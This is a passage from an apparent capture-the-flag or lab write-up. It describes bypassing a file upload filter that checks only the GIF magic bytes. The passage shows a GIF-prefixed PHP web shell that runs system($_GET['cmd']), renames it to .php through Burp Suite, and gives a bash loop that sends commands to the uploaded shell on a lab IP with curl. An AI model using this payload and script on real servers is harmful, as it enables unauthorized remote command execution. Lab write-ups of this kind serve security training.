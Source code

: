 ```
===============================================================
2023/02/13 22:05:25 Finished
===============================================================

```

Checking it shows that has a function to upload a gif file
![image](https://user-images.githubusercontent.com/113513376/218574151-0766613b-e830-44fc-ac95-dafe8b9f76b9.png)

After few minutes i got that it only accepts a gif file 

But we can leverage this by uploading a php file because it don't check the extension just the magic byte header

Using a gif header i can create a malicious file which executes a php code

Here's where i got the header from [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

This is my payload

```
└─$ cat lol.gif 
GIF87a

<?php system($_GET['cmd']); ?>

```

Now i'll upload it but i'll intercept it in burp suite then change the name to lol.php
![image](https://user-images.githubusercontent.com/113513376/218576309-4a7b9abd-98c9-429d-b07d-49c373723f73.png)
![image](https://user-images.githubusercontent.com/113513376/218576393-f146e0ad-23fe-463c-acd4-c4e278d0f452.png)

And it uploaded
![image](https://user-images.githubusercontent.com/113513376/218576454-c239798c-4f7d-43fd-8f86-f0033685266d.png)

I'll access it now
![image](https://user-images.githubusercontent.com/113513376/218576522-d7c989cc-65ad-4bbf-93cc-1c59906f354f.png)

We need to pass `cmd` as a GET parameter
![image](https://user-images.githubusercontent.com/113513376/218576617-73d8404a-7ce8-4691-b52c-64703aefc1e8.png)

Cool we have command execution on the remote server

Using this script i'll navigate through the server easily

```
#!/bin/bash
# edited by: M3
function rce() {
        echo "To exit kindly use CTRL + C"
        while true; do
        echo -n "Shell>> "; read cmd
        ecmd=$(echo -n $cmd | jq -sRr @uri )
        curl -s -o - "http://192.168.202.113:8080/dev/uploads/lol.php?cmd=${ecmd}"
        echo ""
        done
        }
rce
```
